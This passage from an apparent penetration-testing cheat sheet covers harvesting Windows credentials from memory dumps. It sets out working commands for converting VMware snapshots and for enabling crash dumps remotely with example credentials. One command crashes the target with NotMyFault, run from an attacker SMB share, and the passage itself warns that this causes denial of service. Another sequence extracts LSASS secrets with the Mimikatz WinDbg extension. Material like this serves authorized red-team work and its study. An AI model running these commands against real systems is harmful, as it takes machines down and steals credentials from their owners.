 


## Physical Memory

Convert VMware snapshot to a memory dump with [vmss2core](https://kb.vmware.com/s/article/2003941):

```
Cmd > vmss2core.exe -W/-W8 Snapshot.vmsn Snapshot.vmem
```



### Crash Dumps

- [https://danielsauder.com/2016/02/06/memdumps-volatility-mimikatz-vms-part-3-windbg-mimikatz-extension/](https://danielsauder.com/2016/02/06/memdumps-volatility-mimikatz-vms-part-3-windbg-mimikatz-extension/)

Get current `CrashControl` settings and set `CrashDumpEnabled` to **0x01** (default dump location is `C:\Windows\MEMORY.dmp`):

```
$ reg.py megacorp.local/snovvcrash:'Passw0rd!'@192.168.1.1 query -keyName 'HKLM\SYSTEM\CurrentControlSet\Control\CrashControl'
$ reg.py megacorp.local/snovvcrash:'Passw0rd!'@192.168.1.1 add -keyName 'HKLM\SYSTEM\CurrentControlSet\Control\CrashControl' -v CrashDumpEnabled -vt REG_DWORD -vd 1
```

Crash the target machine, e. g. with [NotMyFault](https://learn.microsoft.com/en-us/sysinternals/downloads/notmyfault):

{% hint style="warning" %}
**This action causes DOS!** Do at your own risk.
{% endhint %}

```
$ cme smb 192.168.1.1 -u snovvcrash -p 'Passw0rd!' -x '\\10.10.13.37\notmyfaultc64.exe -accepteula /crash 0x03' --no-output
```

Parse LSASS with Mimikatz and [WinDbg](https://learn.microsoft.com/en-us/windows-hardware/drivers/debugger/debugger-download-tools#small-classic-windbg-preview-logo-debugging-tools-for-windows-windbg):

```
kd> .load C:\mimilib.dll
kd> .SymFix
kd> .Reload
kd> !process 0 0 lsass.exe
kd> .process /r /p fffffa80072b2b10
kd> !mimikatz
```

{% hint style="info" %}
To add  debug symbols: `File` → `Symbol file path` → `SRV*https://msdl.microsoft.com/download/symbols`.
{% endhint %}
